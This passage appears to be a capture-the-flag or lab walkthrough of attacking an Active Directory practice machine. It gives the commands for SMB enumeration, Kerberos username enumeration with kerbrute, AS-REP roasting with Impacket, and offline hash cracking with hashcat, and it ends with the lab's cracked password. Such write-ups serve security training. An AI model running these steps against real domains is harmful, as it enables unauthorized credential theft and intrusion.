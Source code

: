 
## Step 2: SMB Enumeration
We use enum4linux to extract domain-related info:
```bash
enum4linux -a 10.10.71.62
```
Findings:
- Domain Name: THM-AD with another called spookysec.local
- TLD: .local (commonly used in AD environments)
- Visible Users: Some SID cycling reveals users like Administrator, Guest, krbtgt

---

## Step 3: Kerberos Username Enumeration
Modify /etc/hosts to resolve the domain:
```bash
sudo nano /etc/hosts

# Add:
10.10.71.62 spookysec.local
```

Now use kerbrute to enumerate valid usernames:

```bash
kerbrute userenum -d spookysec.local --dc 10.10.71.62 usernames.txt
```
- In most cases you would first use the usernames you have gather from the enum4linux and if that doesn't work use this link and gather usernames to put into your 'usernames.txt', https://github.com/attackdebris/kerberos_enum_userlists
- Valid Users Discovered: administrator, backup, darkstar, james, paradox, robin, svc-admin
- Also save only the valid users to another .txt named valid_users.txt to use for our impacket attack down below
---


## Step 4: AS-REP Roasting
What is AS-REP Roasting?
- Some AD accounts don’t require Kerberos pre-auth. If so, an attacker can request encrypted TGTs and crack them offline.

### Run Impacket's GetNPUsers.py:
```bash
python3 /opt/impacket/examples/GetNPUsers.py \
  -no-pass -dc-ip 10.10.71.62 spookysec.local/valid_users.txt
```
- Output: You’ll receive a Kerberos etype 23 hash for svc-admin.
---

## Step 5: Cracking the AS-REP Hash
Using Hashcat:
```bash
hashcat -m 18200 -a 0 hash.txt passwords.txt --force
```
- Remember to download that password list they gave you from "Task 4" and use it. In real-world you would first use something like rockyou.txt and go from there. 
Result:
The cracked password is:
- management2005

---